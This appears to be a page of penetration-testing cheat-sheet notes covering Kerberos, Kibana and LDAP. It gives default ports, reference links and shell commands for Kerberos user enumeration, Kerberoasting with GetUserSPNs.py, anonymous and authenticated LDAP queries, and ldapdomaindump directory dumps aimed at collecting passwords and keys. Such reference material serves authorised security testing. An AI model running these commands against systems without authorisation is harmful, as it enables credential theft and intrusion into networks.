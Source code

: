 ### <a name='kerberos'></a>kerberos
* default port: 88
* [hacktricks](xxx) / [thehacker.recipes](https://www.thehacker.recipes/ad/movement/kerberos)

```sh
# scan
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm=$zdom_fqdn,userdb=x.lst $ztarg_computer_ip

# kerbrute
# https://github.com/ropnop/kerbrute.git ./kerbrute -h

# kerberoasting
GetUserSPNs.py -request -dc-ip $zdom_dc_ip $zdom_fqdn/$ztarg_computer_name
```

### <a name='kibana'></a>kibana 
* default port: 5601
* [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/5601-pentesting-kibana)

```sh
#scan nmap https-like
nmap -Pn -sS -sV --script "" -p 5601 $ztarg_computer_ip

#login 
https://$ztarg_computer_ip:5601
```

### <a name='ldap'></a>ldap
* default port: 389, 636 (ldaps)
* [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap) / [politoinic](https://www.politoinic.com/post/ldap-queries-for-offensive-and-defensive-operations) / [theitbros](https://theitbros.com/ldap-query-examples-active-directory/) / [specterops](https://posts.specterops.io/an-introduction-to-manual-active-directory-querying-with-dsquery-and-ldapsearch-84943c13d7eb) 
* loots : ssh public key, passwords, dump

```sh
# scan nmap
nmap -n -sV --script "ldap* and not brute" $ztarg_computer_ip

# login / anonymous / 
ldapsearch -x -H ldap://$ztarg_computer_ip -D '' -w '' -b $ztarg_ou

# login / anonymous / bypass tls sni
ldapsearch -x -H ldaps://$ztarg_computer_ip:636/ -s base -b '' "(objectClass=*)" "*" +

# login / valid account
ldapsearch -x -H ldap://$ztarg_computer_ip -D $zdom'\'$ztarg_user_name -w $ztarg_user_pass -b $ztarg_ou

# login / kerberos cache

# dump / 
pip3 install ldapdomaindump 
# dump / V1
ldapdomaindump $ztarg_computer_ip -u $zdom'\'$ztarg_user_name -p $ztarg_user_pass --no-json --no-grep -o /tmp/$zcase"_"$ztarg_computer_ip"_ldap.dmp"
# dump / V2
ldapdomaindump -r $ztarg_computer_ip -u $zdom'\'$ztarg_user_name -p $ztarg_user_pass --authtype SIMPLE --no-json --no-grep -o /tmp/$zcase"_"$ztarg_computer_ip"_ldap.dmp"
```
